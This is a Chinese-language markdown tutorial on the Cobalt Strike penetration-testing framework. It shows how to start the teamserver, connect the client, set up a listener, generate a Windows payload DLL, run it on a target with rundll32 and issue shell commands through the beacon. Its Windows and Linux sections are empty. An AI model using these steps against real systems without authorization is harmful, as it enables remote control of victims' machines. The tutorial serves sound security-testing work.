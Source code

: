 # Cobaltstrike

* [CobaltStrike](cobaltstrike.md#CobaltStrike)
  * [简介](cobaltstrike.md#简介)
  * [使用](cobaltstrike.md#使用)
    * [启动](cobaltstrike.md#启动)
    * [上线一个目标](cobaltstrike.md#上线一个目标)
      * [Windows上线相关方式](cobaltstrike.md#Windows上线相关方式)
      * [Liunx相关上线方式](cobaltstrike.md#Liunx相关上线方式)
        * [利用Cross2上线linux主机](cobaltstrike.md#利用Cross2上线linux主机)

*
## 简介

Cobalt Strike是一款渗透测试神器，常被业界人称为CS神器。Cobalt Strike已经不再使用MSF而是作为单独的平台使用，它分为客户端与服务端，服务端是一个，客户端可以有多个，可被团队进行分布式协团操作。 Cobalt Strike集成了端口转发、扫描多模式端口Listener、Windows exe程序生成、Windows dll动态链接库生成、java程序生成、office宏代码生成，包括站点克隆获取浏览器的相关信息等。

* 官网地址：https://www.cobaltstrike.com/

目录说明

```
- agscript：拓展应用的脚本。
- c2lint：用于检查profile 的错误和异常。
- teamserver：团队服务器程序。
- cobaltstrike 和 cobaltstrike.jar:客户端程序。因为teamserver文件是通过Java来调用CobaltStrike 的，所以直接在命令行环境中输入第一个文件的内容也能启动Cobalt Strike 客户端 (主要是为了方便操作)。
- logs:日志，包括 Web日志、Beacon日志、截图日志、下载日志、键盘记录日志等。
- datas：用于保存当前TeamServer的一些数据。
- update 和 update.jar：用于更新Cobalt Strike。
```

## 使用

需要先部署TeamServer团队服务器，需要设置当前主机的IP地址和团队服务器的密码

### 启动

* 服务端teamserver

```bash
./teamserver 10.30.0.95 123456
```

![image](img/cobaltstrike-1.png)

* 客户端CobaltStrike

```bash
 ./cobaltstrike
```

![image](img/cobaltstrike-2.png)

填写团队服务器的IP地址、端口号、用户名、密码，这里的用户名任意填写、不能是已经登录的用户名。端口号默认为50050

![image](img/cobaltstrike-3.png)

**连接多个团队服务器**

Cobalt Strike → New Connection

![image](img/cobaltstrike-4.png)

### 上线一个目标

* 首先配置一个监听器：CobaltStrike->Linteners->Add

![image](img/cobaltstrike-5.png)

* 生成一个payload：Attacks->Packages->Windows Executable

![image](img/cobaltstrike-6.png)

* 然后生成的dll上传到目标机器Windows，执行命令：

```
rundll32.exe artifact.dll Start
```

![image](img/cobaltstrike-7.png)

可以看到目标上线成功，右键interact可执行命令

```bash
shell whoami #命令执行需要前面加上shell
```

因为cobaltstrike心跳默认60s，执行命令响应比较慢，可设置sleep加快速度

```
sleep 1
```

#### Windows上线相关方式

#### Linux上线相关方式

##### 利用Cross2上线linux主机

## 参考链接

* ffffffff0x团队-1earn的CobaltStrike教程：https://github.com/ffffffff0x/1earn/blob/b068ec66544975f03160088fcca375e95768b198/1earn/Security/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7/CobaltStrike.md

* https://www.cxyzjd.com/article/qq_41874930/109176632#1Cross2linux_20